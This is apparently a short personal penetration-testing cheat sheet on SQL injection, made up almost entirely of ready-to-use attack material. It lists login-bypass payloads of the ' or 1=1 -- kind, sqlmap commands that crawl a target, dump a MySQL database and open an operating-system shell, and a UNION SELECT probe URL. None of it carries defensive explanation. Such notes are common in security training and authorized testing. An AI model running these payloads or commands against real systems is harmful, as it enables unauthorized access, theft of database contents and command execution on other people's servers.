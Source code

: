 ```yaml
---
title: SQL Injection
updated: 2020-05-06 02:06:16Z
created: 2019-11-27 02:41:46Z
---
```


Testing for Bypasses: 

' or 1=1 LIMIT 1 --
' or 1=1 LIMIT 1 -- -
' or 1=1 LIMIT 1#
'or 1#
' or 1=1 --
' or 1=1 -- -

# SQLMAP

## sqlmap crawl  
sqlmap -u http://172.21.0.0 --crawl=1

## sqlmap dump database  
sqlmap -u http://172.21.0.0 --dbms=mysql --dump

## sqlmap shell  
sqlmap -u http://172.21.0.0 --dbms=mysql --os-shell

# SQLI

Testing for a row: 

- http://target-ip/inj.php?id=1 union all select 1,2,3,4,5,6,7,8